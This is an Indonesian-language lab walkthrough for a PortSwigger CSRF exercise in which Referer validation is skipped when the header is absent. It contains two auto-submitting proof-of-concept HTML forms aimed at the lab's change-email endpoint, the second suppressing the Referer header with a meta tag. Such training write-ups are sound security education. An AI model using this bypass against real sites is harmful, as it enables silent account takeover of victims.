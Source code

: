 # CSRF di mana Validasi Referer Bergantung pada Keberadaan Header

Fungsi perubahan email pada lab ini rentan terhadap CSRF. Sistem mencoba memblokir permintaan lintas domain tetapi memiliki fallback yang tidak aman.

Untuk menyelesaikan lab ini, gunakan server exploit Anda untuk meng-host halaman HTML yang menggunakan serangan CSRF untuk mengubah alamat email pengguna yang melihat halaman tersebut.

Anda dapat masuk ke akun Anda sendiri menggunakan kredensial berikut: **wiener:peter**

**Hint:** Anda tidak dapat mendaftarkan alamat email yang sudah digunakan oleh pengguna lain. Jika Anda mengubah alamat email Anda sendiri saat menguji exploit Anda, pastikan Anda menggunakan alamat email yang berbeda untuk exploit akhir yang akan Anda kirimkan kepada korban.

---------------------------------------------

**Referensi:**

- [Bypassing Referer-based Defenses pada CSRF](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses)

![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/1.png)

---------------------------------------------

Ada fungsi untuk memperbarui email:

![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/2.png)

Ini adalah permintaan POST dengan header HTTP “Referer”:

![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/3.png)

Pertama, kita menghasilkan PoC CSRF:

```html
<html>
  <!-- CSRF PoC - dihasilkan oleh Burp Suite Professional -->
  <body>
    <form action="https://0a250042033a996983bd0048004f00df.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Kirim permintaan" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Ketika dibuka, halaman ini mengembalikan error berikut:

![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/4.png)

Menambahkan baris untuk menghindari penggunaan header Referer menyelesaikan masalah ini:

```html
<meta name="referrer" content="never">
```

```html
<html>
  <!-- CSRF PoC - dihasilkan oleh Burp Suite Professional -->
  <body>
    <form action="https://0a250042033a996983bd0048004f00df.web-security-academy.net/my-account/change-email" method="POST">
      <meta name="referrer" content="never">
      <input type="hidden" name="email" value="test777&#64;test&#46;com" />
      <input type="submit" value="Kirim permintaan" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/5.png)

---

